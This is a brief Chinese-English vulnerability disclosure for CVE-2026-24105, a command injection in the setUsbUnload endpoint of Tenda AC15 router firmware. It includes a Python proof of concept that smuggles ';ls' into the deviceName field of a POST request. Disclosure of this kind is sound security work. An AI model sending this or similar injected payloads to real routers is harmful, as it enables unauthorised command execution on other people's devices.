

# CVE-2026-24105 漏洞信息

## 基础信息
- **CVE编号**: CVE-2026-24105
- **影响组件**: goform/formsetUsbUnload
- **固件版本**: Tenda AC15V1.0 V15.03.05.18_multi

## 漏洞详情



formsetUsbUnload


The value of v1 was not checked, potentially leading to a command injection vulnerability if injected into doSystemCmd.
POC
```
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setUsbUnload"
payload = ";ls"

data = {"deviceName": payload}
response = requests.post(url, data=data)
print(response.text)
```
